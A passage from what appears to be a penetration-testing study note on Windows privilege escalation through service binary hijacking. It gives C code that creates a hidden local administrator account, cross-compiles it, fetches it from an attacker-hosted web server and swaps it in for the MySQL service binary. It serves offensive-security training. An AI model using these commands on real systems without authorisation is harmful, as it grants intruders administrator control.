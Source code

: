 Here is our C code:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
#### Cross Compiling
To cross compile it on our Kali machine to a 64-bit Windows binary, we need to use `mingw-64`. Assume our C file is called `adduser.c`:
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
### Infiltrating the Binary
Now that we've cross compiled `adduser.c` to our Windows binary `adduser.exe` we can transfer it to the victim machine. Again, we can do this with a [python](../../../coding/languages/python/python.md) web server and `iwr` to fetch it from the victim machine:
```powershell
PS C:\Users\dave> iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe
```
### Replacing the Binary
We can use `move` on the windows host to overwrite the original `mysqld.exe` service binary with our `adduser.exe` binary. Before overwriting, we should *create a copy* of the original `mysqld.exe` so we can restore it after we've successfully escalated our privileges:
```powershell
PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```
### Executing the Binary
To execute our malicious binary, we need to *restart the service* which we can do using the `net stop` command. **However** there's a chance that we (as `dave`) don't *have permission to stop or start services*:
```powershell
PS C:\Users\dave> net stop mysql
System error 5 has occurred.

Access is denied.
```
If this is the case, then we may be able to force it to restart by *rebooting the machine*. Before rebooting though, we should check if the service has `StartMode` set to `Auto`. We can check by using `Get-CimInstance` again and piping the output to `Select` and then `Where-Object` to narrow down the output:
```powershell
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

Name  StartMode
----  ---------
mysql Auto
```
Since `StartMode` is set to `Auto` that means the service *will restart when we reboot the machine.* **BUT** we also need to check if `dave` has permission to reboot the machine. We can check by using `whoami` with the `/priv` flag:
```powershell
PS C:\Users\dave> whoami /priv

```